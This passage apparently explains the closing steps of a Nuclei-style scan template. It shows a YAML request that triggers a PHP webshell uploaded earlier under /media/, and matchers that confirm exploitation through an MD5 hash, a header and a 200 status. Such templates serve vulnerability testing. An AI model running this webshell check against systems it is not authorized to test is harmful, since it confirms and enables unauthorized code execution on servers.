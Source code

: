 ####  Final Request: Trigger Webshell

```yaml
- raw:
    - |
      GET /media/{{randstr}}.php HTTP/1.1
      Host: {{Hostname}}
```

**Purpose:**

- Accesses the uploaded webshell via `/media/{{randstr}}.php`.
    
- Executes the PHP code, which outputs the MD5 hash if successful.
    



####  Matchers: Confirm Exploitation

```yaml
matchers-condition: and
matchers:
  - type: word
    part: body_6
    words:
      - 751a8ba516522786d551075a092a7a84

  - type: word
    part: header
    words:
      - text/html

  - type: status
    status:
      - 200
```

**Explanation:**

- Verifies:
    
    - The response body contains the correct MD5 hash: `751a8ba516522786d551075a092a7a84`.
        
    - The HTTP header includes `text/html`.
        
    - The response status is `200 OK`.
        
- All conditions must be true (`matchers-condition: and`) to confirm successful exploitation.
    
